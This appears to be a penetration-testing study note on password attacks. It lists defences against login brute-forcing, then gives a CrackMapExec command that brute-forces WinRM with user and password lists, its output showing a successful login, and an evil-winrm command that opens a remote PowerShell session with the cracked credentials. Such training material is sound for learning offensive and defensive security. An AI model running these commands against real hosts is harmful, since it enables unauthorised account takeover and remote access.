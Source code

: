 
- In summary, attacks against login systems can be carried out efficiently using a tool, such as THC Hydra combined with a suitable word list. Mitigation against such attacks can be sophisticated and depends on the target system. A few of the approaches include:
    - Password Policy: Enforces minimum complexity constraints on the passwords set by the user.
    - Account Lockout: Locks the account after a certain number of failed attempts.
    - Throttling Authentication Attempts: Delays the response to a login attempt. A couple of seconds of delay is tolerable for someone who knows the password, but they can severely hinder automated tools.
    - Using CAPTCHA: Requires solving a question difficult for machines. It works well if the login page is via a graphical user interface (GUI). (Note that CAPTCHA stands for Completely Automated Public Turing Test to tell Computers and Humans Apart.)
    - Requiring the use of a public certificate for authentication. This approach works well with SSH, for instance.
    - Two-Factor Authentication: Ask the user to provide a code available via other means, such as email, smartphone app or SMS.
    - There are many other approaches that are more sophisticated or might require some established knowledge about the user, such as IP-based geolocation.

---

# —————————————————————————————————————————————————————————

# Network Services

## [WinRM](https://www.notion.so/WinRM-b14966b622404aca8460e6353f9c2cbf?pvs=21)

A handy tool that we can use for our password attacks is [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), which can also be used for other protocols such as SMB, LDAP, MSSQL, and others. We recommend reading the [official documentation](https://mpgn.gitbook.io/crackmapexec/) for this tool to become familiar with it.

### brute-force using [CrackMapExec](https://www.notion.so/CrackMapExec-ebf83da030bc4e13994dda977ff6dc22?pvs=21)

```bash
crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

### interact using Evil-WinRM

```bash
evil-winrm -i $ip -u $username -p $password
```

If the login was successful, a terminal session is initialized using the [Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) (`MS-PSRP`), which simplifies the operation and execution of commands.
